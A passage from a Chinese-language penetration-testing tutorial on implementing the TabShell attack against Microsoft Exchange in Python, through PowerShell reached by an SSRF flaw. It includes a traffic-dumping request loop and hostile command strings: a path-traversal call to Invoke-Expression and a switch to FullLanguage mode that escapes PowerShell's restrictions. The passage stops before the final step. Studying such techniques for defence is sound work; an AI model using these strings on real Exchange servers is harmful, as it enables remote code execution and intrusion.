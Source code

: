 这里需要考虑两部分，一种是通过SSRF漏洞调用Exchange Powershell实现TabShell的Python实现，另一种是通过Powershell Session实现TabShell的Python实现，后者比前者需要额外考虑通信数据的编码和解码，具体细节如下：

## 1.通过SSRF漏洞调用Exchange Powershell实现TabShell的Python实现

为了分析中间的通信数据，抓取明文数据的方法可参考上一篇文章《渗透技巧——Exchange Powershell的Python实现》中的0x04，在Flask中输出中间的通信数据

关键代码示例：

```
while True:
    r = session.post(powershell_url, data=data, headers=req_headers, verify=False)
    print("post data:")
    print(data)
    
    if r.status_code == 200:
        print("[+]" + r.headers["X-CalculatedBETarget"])
        break
    else:    
        print("[-]" + r.headers["X-CalculatedBETarget"])

print("recv data:")
print(r.content)
```

通过分析中间的通信数据，我们可以总结出以下通信过程：

#### (1)creationXml

初始化，构造原始数据

#### (2)ReceiveData

循环多次执行，返回结果中包含`"RunspaceState"`作为结束符

#### (3)执行命令`;../../../../Windows/Microsoft.NET/assembly/GAC_MSIL/Microsoft.PowerShell.Commands.Utility/v4.0_3.0.0.0__31bf3856ad364e35/Microsoft.PowerShell.Commands.Utility.dll\Invoke-Expression`

在返回数据中获得CommandId

#### (4)读取输出结果

通过CommandId读取命令执行结果

#### (5)执行命令`$ExecutionContext.SessionState.LanguageMode='FullLanguage'`

在返回数据中获得CommandId

#### (6)读取输出结果

通过CommandId读取命令执行结果

#### (7)执行命令并获得返回结果
